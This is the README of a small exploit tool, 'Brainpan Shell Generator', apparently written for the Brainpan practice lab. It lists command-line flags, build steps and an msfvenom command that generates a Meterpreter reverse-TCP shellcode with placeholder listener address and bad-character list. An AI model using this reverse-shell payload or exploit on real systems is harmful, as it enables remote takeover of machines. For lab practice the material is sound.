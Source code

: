 # Cross Platform Brainpan Shell Generator
I made that for fun, don't ask why i made that now that you know why.

```
USAGE : BrainpanShellGen.exe <-t TARGET> <-p TARGET_PORT> <-o OUTPUT_FILENAME>
    -h OR -? Prints this help menu
    -t <TARGET_HOST> IP Address or Hostname (Local or from DNS) to exploit
    -p <TARGET_PORT> Port where the service run on the target. default:'9999'
    -s <SHELLCODE_PATH> Path to your generated shellcode

Generate Shellcode : msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOURLISTENIP LPORT=YOURLISTENPORT -f c -b \x00\x0a\x0d\xff
Put that shell code as a one liner in a file and give that file as an argument

EXAMPLES : .\BrainpanShellGen.exe -t target.com -p 9999 -s shellcode.txt
```

You can compile the project with cmake using the following commands :
```bash
#Instructions are the same for linux and windows
cd cmake
cmake .
cmake --build . --config Release
cd Release
.\ShellGen.exe
```

